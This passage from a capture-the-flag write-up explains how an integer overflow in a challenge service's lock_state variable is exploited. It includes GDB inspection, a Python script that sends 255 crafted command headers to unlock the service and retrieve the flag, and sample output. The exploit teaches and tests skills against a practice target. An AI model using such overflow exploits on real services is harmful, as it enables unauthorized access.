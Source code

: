 We can then look at the value of the variable using the `p` command of `gdb`. Note that the `lock_state` variable must be casted into an `unsigned int` to avoid GDB from complaining:

```gdb
(gdb) p (unsigned int)lock_state
$1 = 2
```

We were able to update the `lock_state` via the `header->id` value of our command header. As you can see, the value `lock_state` is now `2`, meaning that we were able to change its value when using `-8` as the ID of the header. Because we are incrementing the variable through a buffer of `signed char`, incrementing the value a total of 255 times will cause it to roll over to `0`, causing the integer overflow. To do so, well modify out script to send 255 command headers with an id of `-8`, causing the value of the lock_state to be `0`, i.e. **UNLOCKED**. We will then follow with one additional command header using the `COMMAND_GETKEYS` id:

```python
def do_challenge(remote):
    overflow = bytearray()
    # Create a bytearray of 1, 1 and -8
    overflow += struct.pack('HHi', 1, 1, -8)
    
    # Send 255 headers to overflow the `lock_state` to 0
    for i in range(1, 256):
        remote.sendline(overflow)
        line = remote.recv().decode('utf-8')
        print(f"[*] << {line.rstrip()}")

    # Create the command header to get the flag
    flag = bytearray()
    flag += struct.pack('HHI', 1, 1, 9)
    remote.sendline(flag)
    # Bring home the flag
    while remote.can_recv(1):
        line = remote.recv().decode('utf-8')
        print(f"[*] << {line.rstrip()}")
```

Close the `challenge` service and restart it, this time providing a dummy flag using the `FLAG` variable environment:

```sh
$ FLAG=flag{this-is-not-a-flag} TIMEOUT=3600 ./challenge
```

And now running our _Python_ solving script, we should unlock the flag:

```sh
[*] << Command header acknowledge: version:1 type:1 id:-8
Command Success: LOCKED
[*] << Command header acknowledge: version:1 type:1 id:-8
Command Success: UNLOCKED
[*] << Command header acknowledge: version:1 type:1 id:9
flag{this-is-not-a-flag}
[*] Closed connection to 127.0.0.1 port 54321
```
